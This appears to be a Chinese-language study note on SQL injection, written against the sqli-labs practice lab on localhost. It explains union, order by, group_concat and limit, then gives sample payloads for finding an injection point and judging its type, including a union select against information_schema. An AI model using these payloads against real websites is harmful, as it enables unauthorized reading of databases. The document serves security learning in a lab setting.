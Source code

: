 http://127.0.0.1/phpMyAdmin4.8.5

#### adminer.php

http://127.0.0.1/adminer.php?username=root&db=dvwa

#### SQL Front5.3操作数据库

F:\phpstudy_pro\Extensions\SQL_Front5.3\SQL-Front.exe

## 回显注入

### 函数说明

union 函数

```sql
select * from users where id=1 union select 1,2,3

字段数要一致		字符编码(排序规则)要一致
```

order by 函数

```sql
# 配合二分法使用

select * from users where id=1 order by 3	# 正常
select * from users where id=1 order by 4	# 报错，说明有3列
```

group_concat 函数

```sql
# 聚合函数
select * from users where id='-1' union select 1,group_concat(schema_name),3 from information_schema.schemata -- '
```

limit 函数

```sql
select * from users limit 0,1
select * from users limit 1,1
select * from users limit 2,4
```

### 找注入点

```sql
http://127.0.0.1/sqli-labs-master/Less-1/?id=1
http://127.0.0.1/sqli-labs-master/Less-1/?id=1'		# 报错，说明页面有可能存在sql注入
```

### 判断注入类型

```sql
http://127.0.0.1/sqli-labs-master/Less-1/?id=1/1
http://127.0.0.1/sqli-labs-master/Less-1/?id=1/0		# 字符


http://127.0.0.1/sqli-labs-master/Less-1/?id=1' --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' -- -
```
